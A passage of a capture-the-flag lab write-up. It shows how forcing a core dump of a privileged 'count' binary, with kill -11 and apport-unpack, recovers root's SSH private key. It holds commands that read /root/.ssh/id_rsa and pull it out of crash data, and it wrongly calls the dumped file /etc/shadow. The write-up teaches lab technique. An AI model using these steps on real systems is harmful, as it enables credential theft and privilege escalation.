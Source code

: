 After examining the code.c file we can see the funtion that it performs. 

<mark>prctl(PR_SET_DUMPABLE, 1);</mark> . It is enabling the ability to do coredump.



#### What is coredump?

A core dump is a file that gets automatically generated by the Linux kernel after a program crashes. This file contains the **memory, register values, and the call stack of an application at the point of crashing**.



Make an ssh key for the user dasith and login to ssh on another terminal. While running the binary count, kill the process from other terminal to crash the process. So that the data will be dumped to /var/crash directory. We can view the content of the file from the dumped file.

```
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: Segmentation fault (core dumped)
dasith@secret:/opt$ 
```



The other terminal,

```
dasith@secret:~$ cd /var/crash
dasith@secret:/var/crash$ ps -ef | grep count
root         826       1  0 04:48 ?        00:00:00 /usr/lib/accountsservice/accounts-daemon
dasith     31689    1794  0 15:48 pts/0    00:00:00 ./count
dasith     31692   31425  0 15:48 pts/1    00:00:00 grep --color=auto count
dasith@secret:/var/crash$ kill -11 31689
dasith@secret:/var/crash$ ls
_opt_count.1000.crash

```

We can see _opt_count.1000.crash, dumped data of /etc/shadow.



To unpack the crash report,

```
dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /var/crash/ssh
dasith@secret:/var/crash$ ls
_opt_count.1000.crash  report  ssh
dasith@secret:/var/crash$ cd ssh
dasith@secret:/var/crash/ssh$ ls
Architecture  DistroRelease        ProblemType  ProcEnviron  Signal
CoreDump      ExecutablePath       ProcCmdline  ProcMaps     Uname
Date          ExecutableTimestamp  ProcCwd      ProcStatus   UserGroups

```
